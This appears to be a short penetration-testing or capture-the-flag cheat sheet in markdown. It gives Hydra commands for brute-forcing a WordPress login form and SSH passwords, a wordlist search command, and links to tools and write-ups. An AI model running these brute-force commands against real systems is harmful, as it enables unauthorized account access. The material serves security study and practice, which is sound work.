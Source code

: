 ```sh
hydra -L <file for brute force> -p <any string> <ip-address> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```
## Brute Forcing
**Crafting Wordlist**
- [RawSec](https://inventory.raw.pm/overview.html)
- [Cracking Category](https://inventory.raw.pm/tools.html#title-tools-cracking)

**Finding Wordlist**
```sh
wordlistctl search rockyou
```
- #### Hydra for SSH password bruteforce
```sh
hydra -l <ssh name> -P <passwordlist> -t 6 ssh://target
```

- **For ports we can use `-p <portnumber>`**


## TIPS
- **Try To know the Current Versions of SSH,UBUNTU,FTP etc**

## Important WriteUps
- [stefanBargan](https://stefanbargan.medium.com/)
- [Aperi](https://www.zeecka.fr/cat/steganography/)
- [cheatsheet](https://www.aperisolve.com/cheatsheet)
- [Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)
